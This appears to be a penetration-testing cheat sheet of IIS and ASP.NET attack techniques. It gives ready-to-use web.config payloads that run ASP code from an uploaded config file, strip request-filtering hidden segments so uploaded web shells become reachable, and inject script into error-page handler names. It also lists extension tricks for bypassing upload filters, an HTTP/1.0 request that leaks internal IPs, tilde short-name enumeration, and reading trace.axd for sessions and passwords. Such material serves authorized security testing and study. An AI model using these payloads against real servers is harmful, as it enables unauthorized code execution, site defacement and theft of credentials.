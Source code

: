 ## 1) Internal IP Address disclosure

On any IIS server where you get a 302 you can try stripping the Host header and using HTTP/1.0 and inside the response the Location header could point you to the internal IP address:

Response disclosing the internal IP:

```
GET / HTTP/1.0       

HTTP/1.1 302 Moved Temporarily
Cache-Control: no-cache
Pragma: no-cache
Location: https://192.168.5.237/owa/
Server: Microsoft-IIS/10.0
X-FEServer: NHEXCHANGE2016

```

## 2) Running web.config as an ASP file

Sometimes IIS supports ASP files but it is not possible to upload any file with .ASP extension. In this case, it is possible to use a web.config file directly to run ASP classic codes:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```
The web.config file plays an important role in storing IIS7 (and higher) settings. It is very similar to a .htaccess file in Apache web server. Uploading a .htaccess file to bypass protections around the uploaded files is a known technique. Some interesting examples of this technique are accessible via the following GitHub repository: https://github.com/wireghoul/htshells

In IIS7 (and higher), it is possible to do similar tricks by uploading or making a web.config file. A few of these tricks might even be applicable to IIS6 with some minor changes. The techniques below show some different web.config files that can be used to bypass protections around the file uploaders.

### Defaults extensions

* PHP Server
    ```powershell
    .php
    .php3
    .php4
    .php5
    .php7

    # Less known PHP extensions
    .pht
    .phps
    .phar
    .phpt
    .pgif
    .phtml
    .phtm
    .inc
    ```
* ASP Server
    ```powershell
    .asp
    .aspx
    .config
    .cer and .asa # (IIS <= 7.5)
    shell.aspx;1.jpg # (IIS < 7.0)
    shell.soap
    ```
* JSP : `.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action`s
* Perl: `.pl, .pm, .cgi, .lib`
* Coldfusion: `.cfm, .cfml, .cfc, .dbm`

Removing protections of hidden segments
Sometimes file uploaders rely on Hidden Segments of IIS Request Filtering such as APP_Data or App_GlobalResources directories to make the uploaded files inaccessible directly.

However, this method can be bypassed by removing the hidden segments by using the following web.config file:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <security>
            <requestFiltering>
                <hiddenSegments>
                    <remove segment="bin" />
                    <remove segment="App_code" />
                    <remove segment="App_GlobalResources" />
                    <remove segment="App_LocalResources" />
                    <remove segment="App_Browsers" />
                    <remove segment="App_WebReferences" />
                    <remove segment="App_Data" />
                    <!--Other IIS hidden segments can be listed here to remove -->
                </hiddenSegments>
            </requestFiltering>
        </security>
    </system.webServer>
</configuration>
```
Now, an uploaded web shell file can be directly accessible.

Creating XSS vulnerability in IIS default error page
Often attackers want to make a website vulnerable to cross-site scripting by abusing the file upload feature.

The handler name of IIS default error page is vulnerable to cross-site scripting which can be exploited by uploading a web.config file that contains an invalid handler name (does not work in IIS 6 or below):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers>
         <!-- XSS by using *.config -->
         <add name="web_config_xss&lt;script&gt;alert('xss1')&lt;/script&gt;" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="fooo" resourceType="Unspecified" requireAccess="None" preCondition="bitness64" />
         <!-- XSS by using *.test -->
         <add name="test_xss&lt;script&gt;alert('xss2')&lt;/script&gt;" path="*.test" verb="*"  />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   <httpErrors existingResponse="Replace" errorMode="Detailed" />
   </system.webServer>
</configuration>
```

Rewriting or creating the web.config file can lead to a major security flaw. In addition to the above scenarios, different web.config files can be used in different situations. I have listed some other examples below (a relevant web.config syntax can be easily found by searching in Google):


* Re-enabling .Net extensions: When .Net extensions such as .ASPX are blocked in the upload folder.
* Using an allowed extension to run as another extension: When ASP, PHP, or other extensions are installed on the server but they are not allowed in the upload directory.
* Abusing error pages or URL rewrite rules to redirect users or deface the website: When the uploaded files such as PDF or JavaScript files are in use directly by the users.
* Manipulating MIME types of uploaded files: When it is not possible to upload a HTML file (or other sensitive client-side files) or when IIS MIME types table is restricted to certain extensions.

## 3) Microsoft IIS tilde character Vulnerability

You can try to enumerate folders and files inside every discovered folder (even if it's requiring Basic Authentication) using this technique.
The main limitation of this technique if the server is vulnerable is that it can only find up to the first 6 letters of the name of each file/folder and the first 3 letters of the extension of the files.
You can use https://github.com/irsdl/IIS-ShortName-Scanner to test for this vulnerability

## 4) ASP.NET Trace.AXD enabled debugging

ASP.NET include a debugging mode and its file is called trace.axd.
It keeps a very detailed log of all requests made to an application over a period of time.
This information includes remote client IP's, session IDs, all request and response cookies, physical paths, source code information, and potentially even usernames and passwords.

![image](https://user-images.githubusercontent.com/63053441/202226272-ed035d88-ff8d-4495-8108-bf7fdb7dda81.png)


If you find an SSRF vulnerability in an ASP application, try reading trace.axd file. It contains logs of HTTP requests, you can find sensitive information in there.

* https://hackerone.com/reports/519418
